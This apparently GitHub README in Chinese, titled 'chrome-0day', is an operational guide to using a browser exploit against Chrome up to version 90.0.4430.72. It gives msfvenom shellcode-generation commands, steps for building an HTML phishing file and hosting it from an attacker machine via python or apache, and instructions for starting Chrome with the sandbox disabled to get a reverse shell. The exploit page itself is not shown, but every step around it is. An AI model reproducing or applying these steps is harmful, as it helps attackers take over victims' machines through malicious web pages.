 # chrome-0day
## 影响范围

目前最新版也受影响
小于等于90.0.4430.72 (正式版本)

## 利用过程

### 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 制作html钓鱼文件


将生成的代码放入explo.html中shellcode[]中。

#### 方式一

浏览器关闭沙盒并打开网页

```
chrome.exe --no-sanbox /path/to/exploit.html
```
![image](https://user-images.githubusercontent.com/41281045/115233705-d0f06780-a14a-11eb-9f2e-ebf6e785b46f.png)

#### 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

http://192.168.43.232/exploit.html

![image](https://user-images.githubusercontent.com/41281045/115233623-b7e7b680-a14a-11eb-9fd0-49665bf58653.png)



然后记得关闭沙盒后打开使用Chrome浏览器访问exploit.html即可成功反弹shell。



### 关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",

![image](https://user-images.githubusercontent.com/41281045/115229381-90421f80-a145-11eb-97ad-04f84bcd1784.png)




















